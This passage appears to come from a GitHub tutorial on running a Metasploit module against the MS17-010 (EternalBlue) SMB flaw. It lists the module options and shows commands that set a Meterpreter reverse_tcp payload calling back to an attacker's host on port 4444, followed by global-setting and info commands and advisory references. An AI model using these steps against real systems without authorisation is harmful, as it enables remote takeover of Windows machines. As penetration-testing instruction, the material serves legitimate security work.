 | Name | Required | Description |
|------|----------|-------------|
| `RHOSTS` | Yes | Target IP address |
| `RPORT` | Yes | Target port (default: 445 for SMB) |
| `LHOST` | Yes | Attacker's IP address for payload callbacks |
| `LPORT` | Yes | Attacker's listening port |
| `SHARE` | Yes | SMB share (e.g., ADMIN$) |

### Example Payload:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT 4444
```

---

## 📌 Global Settings

To avoid re-setting IPs every time, use:

```bash
setg RHOSTS <target-ip>
```

This persists across different modules until Metasploit is restarted.

---

## ℹ️ Get Module Info

```bash
info
```

Displays module purpose, authors, references (CVE, ExploitDB), architecture, privilege requirements, and detailed usage notes.

---

## 📚 References

- [MS17-010 Microsoft Advisory](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010)
- [CVE-2017-0143](https://nvd.nist.gov/vuln/detail/CVE-2017-0143)
- [Github: MS17-010 Research](https://github.com/worawit/MS17-010)
- [Hitcon 2017 Presentation (PDF)](https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf)

---

